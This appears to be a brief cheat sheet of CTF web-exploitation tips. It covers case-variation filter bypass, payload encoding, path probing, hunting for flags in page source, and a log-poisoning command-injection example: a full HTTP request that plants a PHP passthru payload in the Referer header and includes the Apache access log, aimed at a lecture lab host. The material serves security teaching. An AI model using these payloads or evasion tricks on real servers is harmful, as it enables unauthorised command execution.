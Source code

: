 # General Tips

Modify your payloads slightly to bypass parsers / filters.
* Example: A filter that will reject `file:///` or `<script>` but accept `FilE:///` or `<ScRipT>`

Encode your payload: i.e. base64 or URL-encode

Test for common URL paths.
```
/admin
```

Look in source code:
* i.e. `Inspect -> View Source` to find flags. They might be hiding there as a comment etc.

HTTP Request Header Injection:
* If your payloads don't work as input to a form, url param etc. due to encoding/escaping then try inject into HTTP headers:
* Example: _Command Injection via. PHP log files_ | Payload: `<?php passthru('ls -la');?>`
``` HTML
GET /?q=/var/log/apache2/access.log HTTP/1.1
Host: logfile.lecture.ns.agency
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Referer: <?php passthru('ls -la');?>
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,en-AU;q=0.7
Connection: close
```

